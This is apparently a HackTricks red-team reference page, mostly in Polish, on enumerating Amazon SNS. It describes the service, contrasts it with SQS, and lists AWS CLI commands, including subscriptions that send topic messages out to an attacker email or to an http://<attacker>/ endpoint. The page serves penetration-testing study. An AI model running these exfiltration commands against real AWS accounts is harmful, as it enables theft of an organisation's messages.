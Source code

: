 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisana jako **w pełni zarządzana usługa komunikacji**. Obsługuje zarówno **komunikację aplikacja-do-aplikacji** (A2A), jak i **komunikację aplikacja-do-osoby** (A2P).

Kluczowe cechy komunikacji A2A obejmują **mechanizmy publikacji/subskrypcji (pub/sub)**. Te mechanizmy wprowadzają **tematy**, które są kluczowe dla umożliwienia wysokowydajnej, **opartej na push, komunikacji wiele-do-wielu**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikroserwisy i architektury bezserwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą efektywnie dystrybuować wiadomości do **szerokiego zakresu systemów subskrybujących**, ułatwiając wzorzec komunikacji fanout.

### **Różnica z SQS**

**SQS** to **usługa oparta na kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając, że wiadomości są przetwarzane przez **jednego konsumenta**. Oferuje **dostawę przynajmniej raz**, obsługuje standardowe i FIFO kolejki oraz pozwala na przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z drugiej strony, **SNS** to **usługa oparta na publikacji/subskrypcji**, umożliwiająca **komunikację jeden-do-wielu** poprzez nadawanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty subskrypcyjne, takie jak e-mail, SMS, funkcje Lambda i HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanej dostawy wiadomości.\
Chociaż obie usługi umożliwiają odseparowanie komponentów w systemach rozproszonych, SQS koncentruje się na komunikacji w kolejkach, a SNS podkreśla wzorce komunikacji oparte na zdarzeniach i fan-out.

### **Enumeracja**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Zauważ, że jeśli **temat jest typu FIFO**, tylko subskrybenci używający protokołu **SQS** mogą być używani (HTTP lub HTTPS nie mogą być używane).

Ponadto, nawet jeśli `--topic-arn` zawiera region, upewnij się, że określasz poprawny region w **`--region`**, w przeciwnym razie otrzymasz błąd, który wygląda, jakby wskazywał, że nie masz dostępu, ale problemem jest region.
{% endhint %}

#### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacja uprawnień

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Utrzymywanie

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Odniesienia

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
